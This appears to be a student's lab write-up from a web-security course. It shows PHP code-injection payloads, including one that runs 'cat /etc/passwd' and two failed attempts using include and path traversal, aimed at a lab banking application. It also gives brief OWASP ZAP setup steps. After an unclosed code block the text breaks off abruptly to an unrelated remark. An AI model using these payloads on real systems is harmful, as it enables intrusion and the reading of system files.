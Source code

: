   
  
  

\_\_5. Display /etc/passwd of the web server, the bank application is running on. Try

different methods to achieve this goal. Explain why some methods cannot be

successful.\_\_

\_\_solution\_\_

  

\- payload used:

 \`\`\`php

 '. system("cat /etc/passwd") .'

 \`\`\`

\- Result:

  

 !\[etc\_passwd\_displaying\](images/task2/etc\_passwd.PNG)

  

\- Other methods used/tried:(not successful)

  

\`\`\`php

 ' . echo include\_once('/etc/passwd') . '

\`\`\`

  

\`\`\`php

 ' . show\_source("../../../../../../../etc/passwd", true) . '

\`\`\`

  

\`\`\`php

- Even after fixing the code with a security patch, there are a lot of false positives because the tool is not sure of the integrity and security of data flow from input to output.







### Exercise 2: Black-Box Web Application Vulnerability Testing


__1. Download two web vulnerability scanners and describe the all needed set-up environment
settings__
__solution :__
1. Owasp Zed Attack Proxy (Linux) (Avaialble in `kali Linux`)
   - Download the program from https://www.zaproxy.org/download/ , and select the Linux installer
   - run the file `./ZAP_2_10_0_unix.sh`
   - after successfull installation run the file from command line `$: zapproxy`
   - An gui app will be opened if ran without errors.
   